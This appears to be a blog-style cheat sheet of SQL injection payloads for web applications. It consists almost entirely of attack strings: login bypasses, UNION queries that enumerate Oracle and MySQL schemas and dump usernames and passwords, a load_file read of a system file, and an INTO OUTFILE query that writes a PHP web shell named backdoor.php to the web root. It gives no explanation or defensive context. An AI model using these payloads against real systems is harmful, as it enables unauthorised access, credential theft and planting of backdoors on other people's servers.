```yaml
---
layout: post
title:  "webapp - sql injection"
date:   2022-01-01
categories: web
---
```



## sqli scenario oracle


```bash
admin' or '1'='1'-- -
' union  SELECT global_name,NULL,NULL FROM global_name-- -
' union  SELECT user,NULL,NULL FROM dual-- -
' union  SELECT owner ,NULL,NULL FROM all_tables-- -
' union  SELECT table_name,NULL,NULL FROM all_tables-- -
' union SELECT column_name,NULL,NULL FROM all_tab_columns WHERE table_name = 'admins' and owner = 'app'-- -
' union SELECT username,NULL,NULL FROM admins-- -
' union SELECT PASSWORD,NULL,NULL FROM admins-- -
```



## SQLi


```

-1' UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata -- -
-1' UNION ALL SELECT NULL,database() -- -

 Username : admin' or '1'='1'-- -
 Password : blahblah

/dir/1 UNION SELECT username from users--/
/dir/1 UNION SELECT password from users--/
```

## sqli lfi

```sql
1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

## sqli rce

```sql
1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

## authentication bypass


```sql
admin' or 1=1;#
```

```sql
admin' or 1=1 LIMIT 1;#
```

## enumerate database

```
1 order by 1
```

```
1 union all select 1, 2, 3
```

```
1 union all select 1, 2, @@version
```

```
1 union all select 1, 2, user()
```

```
1 union all select 1, 2, table_name from information_schema.tables
```

```
1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

```
1 union all select 1, username, password from users
```

```
1%20union%20all%20select%201,%202,%20%20table_name%20from%20information_schema.tables
```


```
1%20union%20all%20select%20id,username,password%20from%20users;#
```